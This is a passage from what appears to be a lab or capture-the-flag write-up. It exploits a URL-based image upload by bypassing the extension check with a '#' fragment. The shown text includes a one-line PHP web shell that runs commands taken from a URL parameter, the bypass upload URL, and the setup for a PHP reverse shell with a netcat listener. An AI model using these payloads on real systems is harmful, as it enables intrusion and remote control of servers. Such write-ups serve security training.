 ```
python3 -m http.server
```

and tried to upload a random image using the server :

```
http://10.21.207.183:8000/download.jpeg
```

and as expected the uploading begin :

![Screenshot from 2025-06-23 13-03-20](https://github.com/user-attachments/assets/680236b3-6188-43d5-8079-3bd14a04cb42)

![Screenshot from 2025-06-23 13-09-11](https://github.com/user-attachments/assets/fe7e55d7-388e-46bb-9c8d-f73d71066c47)


As we can see image successfully uploaded on the server and can be accessed using the provided URL.

When i tried uploading a `.php` file it is again returning the same error `Please select an image` so we need to find a way to bypass the extension check implemented on the back end. 

After spending some hour on the bypass I figured out to bypass the filter using `#`.

yah a simple `#` is enough here what it does is when the application encounters an `#` in the URL it strips out everything that is appended to it.

`webshell.php` :

```
<?php system($_GET['cmd']); ?>

```

Uploading with this URL :

```
http://10.21.207.183:8000/webshell.php.#.jpeg
```


![Screenshot from 2025-06-23 22-04-58](https://github.com/user-attachments/assets/de415978-defa-40ba-b5b9-246fb310a3ae)



We got `RCE` boommmmm....

For the reverse shell i am going to use this script [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Before uploading it on the server make sure to change this two fields :

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Start netcat listener on you machine :

```
 nc -nvlp 4000
```
